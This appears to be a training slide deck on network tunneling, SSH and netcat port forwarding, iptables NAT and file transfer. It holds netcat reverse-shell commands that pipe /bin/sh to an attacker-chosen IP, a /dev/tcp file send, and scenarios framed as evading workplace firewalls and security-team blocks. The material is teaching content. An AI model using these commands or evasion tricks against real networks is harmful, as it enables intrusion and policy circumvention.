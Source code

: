 = Movement and Data Transfer
CCTC-NETWORKING
//.images
:slides: true
:imagesdir: https://git.cybbh.space/electric-boogaloo/public/raw/master/modules/networking/slides/images
:source-highlighter: highlightjs
:icons: font
:title-slide-background-image: slide_title_blk.png
:revealjs_theme: black
:revealjs_transition: convex
:revealjs_backgroundTransition: none

== Skills and Objectives

* SKILL CCNE015: Network Tunneling

* SKILL CCNE016: Traffic Redirection

* SKILL CCNE017: Data Transfer

image::slide_title_fade.png[background, size=100%]

== CCNE015: Network Tunneling

image::slide_title_fade.png[background, size=100%]


=== Getting around the firewall

Imagine that you are at work, but you wanted to do non-work related activities. Your company prevents you from accessing a website you want to browse to(gambling.com).  SSH is allowed from the inside of network outbound because the IT staff must do remote administration of devices at branch offices.
[.stretch]
image::peskyFW.png[]

image::slide_title_fade.png[background, size=100%]


=== Understanding SSH (Secure Shell) tunneling

* Commonly used application for remote login into systems via encrypted sessions

* Secures many types of traffic

* Works in a client-server architecture

Tunneling can be performed with SSH by connecting ports/services between SSH endpoints.

----

----

image::slide_title_fade.png[background, size=100%]

=== Purpose of multi-hop tunneling

SSH Tunnels can be used to conceal movement through a network or on the way to a target hot.

----

host1===SSH===host2

--then--

host2===SSH===host3

----

image::slide_title_fade.png[background, size=100%]

=== Basic Port Forwarding

Port Forwarding allows you to connect to another host over a tunnel and use a specific port to access given information

Types:

* Local

* Remote

* Dynamic

image::slide_title_fade.png[background, size=100%]

=== Local port forwarding

[.stretch]
image::Local_port_forwarding.png[]

ssh -L 9001:209.0.0.1:80 home@190.10.0.1 -NT

image::slide_title_fade.png[background, size=100%]

=== Remote port forwarding

[.stretch]
image::Remote_port_forwarding.png[]

ssh -R 9001:10.0.0.57:80 home@190.10.0.1 -NT

image::slide_title_fade.png[background, size=100%]

=== Dynamic port forwarding

Dynamic port forwarding over an ssh tunnel needs a "wrapper" to specify the endpoint. Thiscan be a proxy settings in your browser, or a program like Proxychains. *By default, Proxychains uses port 9050.  Can be changed in the .conf file.
[.stretch]
image::dynamic.png[]
image::slide_title_fade.png[background, size=100%]

=== proxychains

Run TCP/IP based application on your host machine through proxychains. The ssh forwarding allows you to access many dynamic target ports.

[.stretch]
image::proxychains.png[]

image::slide_title_fade.png[background, size=100%]

=== Tunnel within a tunnel
Your security team blocked all ssh traffic destined to our Home ssh server.  They can't block all ssh traffic due to operational requirements. You can use a different server. However, you don't control this server so your account won't allow ou to open a terminal session. You need to ssh to your Home server to SCP somefiles you need.
[.stretch]
image::tunnel-in-tunnel.png[]

image::slide_title_fade.png[background, size=100%]



== CCNE016:traffic redirection


image::slide_title_fade.png[background, size=100%]


=== Use cases for traffic redirection
* Network path isolation
** Tunnels
** Firewalls
** Load balancers
** Routers, switchers (e.g.QOS, link costs)

image::slide_title_fade.png[background, size=100%]

=== Traffic redirection using tools

One of the main traffic redirecting tools used by the DOD is the Citrx Netscaler. Netscalers identifies network domains and controls the traffic across the domains. It has two main components.

Main components:

* listen policies
* Shadow virtual servers

image::slide_title_fade.png[background, size=100%]

=== listen policies parameters

[.stretch]
image::listen_policies.png[]



image::slide_title_fade.png[background, size=100%]

=== Redirect network traffic utilizing iptables NAT table

While doing a server migration, it happens that some traffic still routes to theold machine because the DNS servers are not yet synced or some people are using the IP address instead of the  domain name. By using iptables and its masqueradefeature, it is posible to forward all traffic from the old server to the new IP.It is assumed that you do not have iptables running, or at least no NAT table rules for chain prerouting and postrouting.

image::slide_title_fade.png[background, size=100%]


=== Redirect network traffic utilizing iptables (con't)

For NAT to work, you have to allow forwarding on your server

----
$echo 1 > /proc/sys/net/ipv4/ip_forward
----


To allow LAN nodes with private IP addresses to communicate with external public networks, configure the firewall for IP masquerading, which masks request from LAN nodes with the IP address of the firewall's external device (in this case, eth0)

----
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
----

image::slide_title_fade.png[background, size=100%]

=== Source NAT

[.stretch]
image::Source_NAT_image.png[]

-Change the source address to [RED]#1.1.1.1#

----
iptables -t nat -A POSTROUTING -o eth0 -j SNAT --to 1.1.1.1
----

image::slide_title_fade.png[background, size=100%]


=== Source NAT (IP & PORT)

[.stretch]
image::Source_NAT_w_port.png[]

-Change the source address to [RED]#1.1.1.1# and the port to [RED]#9001#

----
iptables -t nat -A POSTROUTING -p tcp -o eth0 -j SNAT --to 1.1.1.1:9001
----

image::slide_title_fade.png[background, size=100%]


=== Destination NAT (IP)

[.stretch]
image::Dest_NAT_image.png[]

-Change the destination address to [RED]#10.0.0.1#

----
iptables -t nat -A PREROUTING -i eth0 -j DNAT --to 10.0.0.1
----

image::slide_title_fade.png[background, size=100%]

=== Destination NAT(Port Forwarding)

[.stretch]
image::Dest_NAT_w_port.png[]

-Forward traffic to an internal or private IP on port [RED]#8080#

----
iptables -t nat -A PREROUTING -p tcp -i eth0 -j DNAT --to 10.0.0.1:8080
----

image::slide_title_fade.png[background, size=100%]

== CCNE017:DATA TRANSFER



image::slide_title_fade.png[background, size=100%]



=== Common methods of transferring data

* FTP
* SCP
* Email
* Physical Media
* Download
* Cloud

image::slide_title_fade.png[background, size=100%]

=== SCP (Secure copy) to a remote client

[.strech]
image::SCPto.png[]

Copying a file from local client to a remote client

----
scp file1.txt username@10.0.0.2:/remote-directory/path
----

image::slide_title_fade.png[background, size=100%]


=== SCP (Secure copy) from a remote client

[.stretch]
image::SCPfrom.png[]
Copying a file form remote client to a local client

----
scp username@10.0.0.2:file2.txt /local-directory/path
----

image::slide_title_fade.png[background, size=100%]


=== NETCAT

NETCAT is a featured networking utility which reads and writes data across network connections, using the TCP/IP protocol.  It is designed to be a reliable "back end" tool that can be used directly or easily driven by other programs and scripts.

* inbound and outbound connections, TCP/UDP, to or from any ports
* Allows special tunneling
* Port scanning
* Advanced usage options such as hexdumps



image::slide_title_fade.png[background, size=100%]

=== NETCAT: Client to listener file transfer

[.stretch]
image::NC_Client.png[]

Client (sends file): nc 10.0.0.2 9001 < file.txt
Listener (receive file): nc -l -p 9001 > newfile.txt


image::slide_title_fade.png[background, size=100%]

=== NETCAT: Listener to Client file transfer

[.stretch]
image::NC_Listen.png[]

Listener (sends file): nc -l -p 9001 < file.txt
Client (receive file): nc 10.0.0.2 9001 > newfile.txt


image::slide_title_fade.png[background, size=100%]

=== NETCAT Relays

On Client Relay:

----
mknod mypipe p
nc 10.0.0.3 9002 0< mypipe | nc 10.0.0.1 9001 1> mypipe
----

On Listener2 (sends info):

----
nc -l -p 9002 < infile.txt
----

On Listener1 (receives info):

----
nc -l -p 9001 > outfile.txt
----

Writes the output to listener1 and listener2 through the named pipe

image::slide_title_fade.png[background, size=100%]

=== File Transfer with /dev/tcp

On the receiving box:

----
nc -l -p 1111 >file.txt
----

On the sending box:

----
cat file.txt > /dev/tcp/10.2.0.2/111
----

This method is useful for host that does not have NETCAT available.

image::slide_title_fade.png[background, size=100%]


=== Reverse shell using NETCAT

When shelled into the remote host:

----
nc -c /bin/sh <your ip> <any unfiltered port>
----

You could even pipe BASH through NETCAT.

----
/bin/sh | nc <your ip> <any unfiltered port>
----

Then listen for the shell.

----
nc -l -p <same unfiltered port> -vvv
----

image::slide_title_fade.png[background, size=100%]

=== Covert Channel

A Covert Channel is a method of creating a capability to transfer information (Data exfiltration) objects between endpoints that should not be allowed based on policy.

Strategies attackers use to avoid detection:

* VoIP
* Tunnels
** ICMP
** DNS
** HTTP

All can be used to transport encrypted data out of a network.

image::slide_title_fade.png[background, size=100%]

=== BOTNETS

A network of computers affected with malware that allow a master to control and utilize Zombies.

Used for:

* Spam
* DDOS
* Spyware
* Viruses
* Clickfraud

Common Protocols (used for command and control):

* HTTP, UDP, DNS

image::slide_title_fade.png[background, size=100%]

